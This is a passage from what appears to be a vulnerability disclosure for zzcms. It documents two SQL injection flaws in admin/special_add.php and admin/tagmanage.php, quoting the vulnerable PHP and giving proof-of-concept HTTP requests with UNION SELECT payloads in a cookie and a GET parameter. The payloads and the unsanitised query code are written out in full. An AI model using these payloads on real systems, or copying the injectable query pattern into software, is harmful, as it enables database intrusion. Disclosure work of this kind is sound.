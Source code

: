 ## 7. SQL Injecton in admin/special_add.php with COOKIE zxbigclassid [need admin user login]

find an sql expression in admin/special_add.php using $_COOKIE parameter zxbigclassid without any checking:

bettween line 133 and 135 in special_add.php

```php
if ($_COOKIE["zxbigclassid"]!=""){
$sql="select * from zzcms_zxclass where parentid=" .$_COOKIE["zxbigclassid"]." order by xuhao asc";
$rs=query($sql);
```

so attacker could make poc like this:

```http
GET /admin/special_add.php HTTP/1.1
Cookie: bdshare_firstime=1536977468290; UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6; PHPSESSID=nm1mojm251p2urj1d36nlvrqk6;zxbigclassid=1111%20union%20select%200,user(),2,3,4,5,6,7,8,9;
Connection: close

```

get the current user of mysql:

![image-20180916005759115](/Users/kunkun/Library/Application Support/typora-user-images/image-20180916005759115.png)

------

## 8. SQL Injecton in admin/tagmanage.php with SESSION tabletag [need admin user login]

first find an sql expression in admin/tagmanage.php using $_GET parameter tabletag without any checking:

bettween line 1 and 5 in tagmanage.php

```php
<?php
include("admin.php");
if (isset($_GET['tabletag'])){
$_SESSION['tabletag']=$_GET['tabletag'];
}
```

the page has execute the sick sql expression bettween line 47 and 51:

```php
if ($action=="px") {
$sql="Select * From ".$_SESSION['tabletag']."";
$rs=query($sql);
```

so attacker could make poc like this:

```http
GET /admin/tagmanage.php?tabletag=zzcms_tagzx%20union%20select%201,2,user(),4 HTTP/1.1
Cookie: UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6; PHPSESSID=nm1mojm251p2urj1d36nlvrqk6
Connection: close

```
